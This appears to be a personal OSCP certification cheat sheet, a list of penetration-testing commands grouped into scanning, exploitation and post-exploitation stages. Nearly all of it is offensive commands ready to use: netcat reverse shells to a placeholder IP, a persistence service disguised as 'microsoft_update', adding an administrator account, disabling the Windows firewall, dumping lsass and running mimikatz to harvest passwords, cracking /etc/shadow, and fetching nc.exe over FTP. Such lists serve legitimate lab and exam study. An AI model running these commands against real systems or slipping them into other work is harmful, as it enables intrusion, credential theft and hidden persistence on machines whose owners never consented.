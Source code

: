```yaml
---
title:  "OSCP Cheat Sheet"
header: "OSCP Cheat Sheet"
categories: 
  - Cheatsheet
  - OSCP
tags:
  - OSCP
---
```


Here are some commands that I found helpful during the OSCP. I encourage you to take a look at the resource links that I've posted here to go in further detail in many of these topics.

# Pre  
***

Scanning
General pass - `nmap <IP> --top-ports 10 --open`  
Intense scan - `nmap -p 1-65535 -T4 -A -v <IP>`  

Web
`nitko -h <IP>`  
`dirb http://<IP> /usr/share/wordlists/dirb/<insert related list>`  
`finmap -u <IP>`  
`./dotdotpwn.pl -m <MODULE> -h <HOST> [OPTIONS]`  
`wpscan –url http://<IP>/ –enumerate p`  
https://evilzone.org/tutorials/remote-file-inclusion%28rfi%29/  
http://www.hackersonlineclub.com/lfi-rfi  
https://0xzoidberg.wordpress.com/category/security/lfi-rfi/  

SMB/RPC
`enum4linux -a <IP>`  
`nmap --script=smb* -p <PORT(S)> <IP>`  
`rpcclient <IP> -U "" -N`  
`showmount -e <IP>/<PORT>`  
`mount -t cifs //<IP>/<SHARE> <LOCAL DIRECTORY> -o username="guest",password=""`  
`net view \\<IP>`  
`nbtscan -r <IP>`  
`smbclient -L \\<IP> -U "" -N`  
`rlogin <IP>`  
`nmblookup -A target`  

SQL
`nmap -sV -Pn -vv –script=mysql* <IP> -p <PORT>`  
`sqlmap -u <IP> –crawl=1`  
`sqlmap -u http://<IP>/page.php?commen=761 –DBMS=mysql –os-shell`  
http://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet  
http://resources.infosecinstitute.com/backdoor-sql-injection/  

SMTP
`nmap –script=smtp* -p <PORT> <IP>`  

SNMP
`snmpwalk -c public -v1 <IP>`  
`snmpenum -t <IP>`  
`Onesixtyone – c <COMMUNITY FILE> -I <IP>`  

FTP
`nmap –script=ftp* -p <PORT> <IP>`  
`ftp://<IP>`  

DNS
`./dnsrecon.py -d <DOMAIN>`  
`./dnsrecon.py -d <DOMAIN> -t axfr`  
`./dnsrecon.py -d <DOMAIN> -D <NAME LIST> -t brt`  
`./dnsrecon.py -d <HOST> -t zonewalk`  
`nmap –script=dns-zone-transfer -p 53 ns2.megacorpone.com`  
`nmap <IP> -p- -sV --reason --dns-server 1.2.3.4`  

Pass-the-Hash
`pth-winexe -U <HASH> //<IP> cmd`  

# During  
***

Password Cracking
Discover type of hash that you have
`hash-identifier`  

John the Ripper
/etc/shadow cracking
 - Create a file with passwd
 - Create a file with shadow
 - Combine into one document
   `-unshadow <passwd file location> <shadow file location> > <new combined file>`  
`john --wordlist=<any word list> <combined file location>`  

Hydra
`Hydra -L <USER FILE> -P <PASS FILE> -v <IP> ssh`  

Medusa
`Medusa -h <IP> -U <USER FILE> -P <PASS FILE> -M http -m DIR:/admin -T 30`  

Hashcat
`hashcat -m 400 -a 0 <HASH FILE> <WORD LIST>`  

TTY Shells
See shells section

Metaplsoit Payloads
See msfvenom cheat sheet

Metasploit commands
`sysinfo`  
`getuid`  
`search -f *pass*.txt`  
`shell`  
`getprivs`  
`session -i 1` ---puts you back into your session

Turn a regular shell into a meterpreter shell
Attacker
`use exploit/multi/handler`  
`set payload windows/shell/reverse_tcp`  
`set lhost <IP>`  
`set lport <PORT>`  
`run`  
Target
`nc -vn <IP> <PORT> -e cmd.exe`  
Attacker
Ctrl+Z (to background session)
`sessions -l` (this will list your sessions to verify which one it is)
`setg rhost <IP>`  
`setg lhost <IP>`  
`sessions -u 1` (the 1 is the session number)

Netcat
See netcat cheat sheet

Useful Windows Commands
`net view`  
`net user`  
`net localgroup Users`  
`net localgroup Administrators`  
`net user hacker password1 /add`  
`net localgroup administrators hacker /add`  
`search dir/s *.doc`  
`system(“start cmd.exe /k $cmd”)`  
`sc create microsoft_update binpath=”cmd /K start c:\nc.exe -d <IP> <PORT> -e cmd.exe” start= auto error= ignore`  
`/c C:\nc.exe -e c:\windows\system32\cmd.exe -vv <IP> <PORT>`  
`mimikatz.exe “privilege::debug” “log” “sekurlsa::logonpasswords”`  
`Procdump.exe -accepteula -ma lsass.exe lsass.dmp`  
`mimikatz.exe “sekurlsa::minidump lsass.dmp” “log” “sekurlsa::logonpasswords”`  
`C:\temp\procdump.exe -accepteula -ma lsass.exe lsass.dmp' (32 bit)
`C:\temp\procdump.exe -accepteula -64 -ma lsass.exe lsass.dmp` (64-bit)
`reg add “hklm\system\currentcontrolset\control\terminal server” /f /v fDenyTSConnections /t REG_DWORD /d 0`  
`netsh firewall set service remoteadmin enable`  
`netsh firewall set service remotedesktop enable`  
`netsh firewall set opmode disable`  
`%SYSTEMDRIVE%\boot.ini`  
`%WINDRIVE%\win.ini`  
`type %WINDRIVE%\System32\drivers\etc\hosts`  

Useful Nix Commands
SUID root files`  
`find / -user root -perm -4000 -print`  
SGID root files:
`find / -group root -perm -2000 -print`  
SUID & SGID files ownership
`find / -perm -4000 -o -perm -2000 -print`  
Files not owned by anyone
find / -nouser -print`  
Files not owned by any group
find / -nogroup -print`  
Symlinks and their pointers
find / -type l -ls`  


Download an EXE from FTP server
`echo open IP> C:\script.txt`  
`echo user myftpuser>> C:\script.txt`  
`echo pass myftppass>> C:\script.txt`  
`echo get nc.exe>> C:\script.txt`  
`echo bye>> C:\script.txt`  
`ftp -s:script.txt`  

Shells
http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
http://roo7break.co.uk/?p=215
http://www.r57shell.net/


# Post  
***

Windows looting (brief)
`systeminfo `  
`type boot.ini `  
`hostname`  
`ipconfig /all`  
`netstat -ano `  
`net users `  
`net localgroup`  
`route print `  
`arp -A `  
`netsh firewall show state`  
`netsh firewall show config`  
`schtasks /query /fo LIST /v`  
`schtasks /query /fo LIST /v`  
`net start`  
`accesschk.exe -uwcqv "Authenticated Users" *`  
`dir network-secret.txt /s`  
`windump -i 2 -w capture -n -U -s 0 src not <IP> and dst not <IP>`  

Nix looting (brief)
`locate proof.txt/network-secret.txt`  
`find -name "proof.txt"/"network-secret.txt"`  
`uname -a`  
`cat /proc/version`  
`cat /etc/passwd`  
`cat /etc/shadow`  
`cat /etc/group`  
`ls -alR | grep ^d`  
`ifconfig -a`  
`netstat -ano`  
`cat /etc/hosts`  
`arp -a`  
`tcpdump -i eth0 -w capture -n -U -s 0 src not <IP> and dst not <IP>`  
`tcpdump -vv -i eth0 src not <IP> and dst not <IP>`  

Packet Sniffing
`tcpdump -i tap0  host <IP> tcp port 80 and not arp and not icmp -vv`  
`tcpdump -i eth0 -w capture -n -U -s 0 src not <ATTACKING IP> and dst not <ATTACKING IP>`  
`tcpdump -vv -i eth0 src not <ATTACKING IP> and dst not <ATTACKING IP>`  

# Other  
***

Quick Kali Configuration
SSH
Start
`service ssh start`  
Stop
`service ssh stop`  

HTTP Service
Start
`service apache2 start`  
Verify its running
`http://127.0.0.1`  
Directory
/var/www/
Stop
`service apache2 stop`  

Update boot sequence
`update-rc.d ssh enable`  
`update-rc.d apache2 enable`  
`rcconf (GUI)`  

Compiling Exploits
32-bit
`gcc -m32 -o output32 hello.c`  
64-bit
`gcc -o output hello.c`  

Windows Compiling
`cd /root/.wine/drive_c/MinGW/bin`  
`wine gcc -o exploit.exe /tmp/exploit.c -lwsock32`  
`wine exploit.exe`  
